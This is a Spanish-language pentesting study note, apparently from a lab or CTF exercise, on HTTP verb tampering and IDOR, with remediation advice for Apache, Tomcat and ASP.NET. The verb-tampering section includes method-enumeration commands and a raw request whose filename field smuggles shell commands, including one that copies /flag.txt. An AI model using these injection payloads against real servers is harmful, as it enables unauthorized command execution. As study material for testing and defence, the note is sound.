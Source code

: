 
### HTTP Verb Tampering 

> El HTTP Verb Tampering es una técnica de evasión que explota métodos HTTP alternativos (como HEAD, PUT o DELETE) para eludir controles de seguridad o acceder a recursos restringidos.
> GET: Solicita una representación del recurso especificado, sin modificarlo.
> HEAD: Igual que GET, pero sin el cuerpo de la respuesta.
> POST: Envía datos al servidor, usualmente causando cambios o efectos secundarios.
> PUT: Reemplaza completamente el recurso especificado con el contenido enviado.
> DELETE: Elimina el recurso especificado.
> CONNECT: Establece un túnel hacia el servidor de destino.
> OPTIONS: Informa sobre las opciones de comunicación disponibles para el recurso.
> TRACE: Realiza una prueba de bucle de mensaje hasta el recurso objetivo.
> PATCH: Aplica modificaciones parciales a un recurso.
> <img width="648" height="380" alt="image" src="https://github.com/user-attachments/assets/027cf822-f119-421f-bec8-7ecba22e40dd" />

#### Bypassing Basic Authentication
Comprobar el tipo de solicitudes que acepta, para ejecutar acciones las cuales estan restringidas unicamente a cierto tipo de cabeceras (Mala configuracion)
```
curl -i -X OPTIONS http://SERVER_IP:PORT/

nmap -p 41414 --script http-methods 94.237.54.192
```

#### Bypassing Security Filters
Al estar protegido contra inyeccion de comandos o caracteres especiales, pero igualmente en solo el Verb POST, se podria Bypassear modificando la peticion
En este caso incluso permitiendo la Ejecucion Remota de Comandos

```
POST /index.php HTTP/1.1
Host: 94.237.54.192:41414
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-CO,en;q=0.7,en-US;q=0.3
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://94.237.54.192:41414/index.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

filename=file1%3B+touch+file2%3B

o

filename=file; cp /flag.txt ./
```

**Recomendaciones Para el Cliente - Verb Tampering Prevention**
Esta configuración suele presentarse en todos los CMS en:

- Apache en _.htaccess_ con `<Limit GET>`
- Tomcat en _web.xml_ con `<http-method>GET</http-method>`
- ASP.NET en _web.config_ con `<allow verbs="GET" roles="admin">`

Las remediaciones para esto son usar en:

- Apache: `<LimitExcept>` en lugar de `<Limit>`
- Tomcat: `<http-method-omission>` en lugar de `<http-method>`
- ASP.NET: usar `add`/`remove` o reglas más amplias para todos los métodos

______________________________________________________________________________________
______________________________________________________________________________________

### Insecure Direct Object References (IDOR)
> Una vulnerabilidad IDOR (Insecure Direct Object Reference) ocurre cuando una aplicación permite el acceso directo a objetos mediante identificadores manipulables sin un control de acceso adecuado, lo que puede permitir a atacantes ver, modificar o eliminar recursos de otros usuarios.





**Recomendaciones Para el Cliente - IDOR Prevention**

Implementar un sistema de Control de Acceso Basado en Roles (Role-Based Access Control (RBAC))






